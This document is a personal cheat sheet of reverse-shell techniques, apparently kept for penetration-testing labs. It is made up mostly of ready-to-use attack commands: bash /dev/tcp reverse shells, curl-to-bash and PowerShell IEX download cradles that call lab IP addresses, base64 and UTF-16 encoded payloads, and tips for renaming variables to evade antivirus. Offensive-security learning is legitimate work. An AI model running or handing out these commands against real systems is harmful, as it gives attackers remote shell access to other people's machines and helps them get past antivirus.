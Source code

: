 # Reverse Shells - Examples

https://www.revshells.com/

# Test that we can rev shell

	Before trying to get a rev shell, we might want to try a ping <ip> into a tcp dump or a uname -a | nc <ip> <port>, to see if we actually get a callback

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm

## Powershell

Save a powershell from https://www.revshells.com/ to a file. Start the netcat listener and a http server in the dir of the revshell we just saved.
Download and execute the shell with this one liner:

	powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.119:8000/my_ps_shell.ps1)

## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

Convert shell to base64 when sending it through http:

	echo -n 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1' | base64 -w0
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0IDA+JjE=

	To get rid of the special characters like the plus sign just add double splaces:

	echo -n 'bash  -i  >&  /dev/tcp/10.10.14.93/4444  0>&1'
	YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx

	Then when sending the payload do:
	echo -n YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx | base64 -d | bash

	Try something but with 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

If the process of our shell is being killed by the target host, we can try creating in a new process:

	'nohup bash -c " bash -i >& /dev/tcp/ip/port 0>&1" &'

## Windows Reverse shells

Download nishang powershell:

	git clone https://github.com/samratashok/nishang.git

Copy the desired rev shell to your webserver directory:

	cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 <webserver_path>/rev_shell.ps1

Delete the comments on the rev shell and change the ip and port to your localhost ip and netcat port. When starting the netcat use the rlwrap utility so that we have access to the up and down arrows for command history:

	rlwrap nc -nvlp 5555
	https://github.com/hanslub42/rlwrap.git

Now to download the rev_shell to the remote host we are gonna use a web cradle. The importance of this is that it something goes wrong and the antivirus blocks or connections, the web cradle helps determine what went wrong.

	IEX(New-Object Net.WebClient).downloadString('http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1')
	https://github.com/Andre92Marcos/myScripts/blob/main/web_cradle.ps1

If the web cradle does not reach our web server, we know that very likely the antivirus is blocking us from downloading the rev shell. Otherwise it problably is blocking the rev shell execution itself.

We change the relevant information in the web_cradle and next we are going to convert the web cradle to utf-16 little endian and then to base 64:

	cat web_cradle.ps1 | iconv -t utf-16le | base64 -w0

The reaseon we are converting to utf-16le is for Windows compability.

And finally we powershell the base64 string in the remote host:

	poweshell -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAOgA4ADAAMAAwAC8AcgBlAHYAXwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=

If we get a hit on the webserver trying to download the shell, but don't get the shell on the nc we know that the web cradle is working but the antivirus is blocking the rev shell. If this happens try changing the cradle to:

	IEX(IWR -UseBasicParsing http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1)

And then change the var names in the rev shell script (already done in this shell):

	https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_anti_virus.ps1


## Resources

https://security-tips.vincd.com/reverse-shell/

https://github.com/samratashok/nishang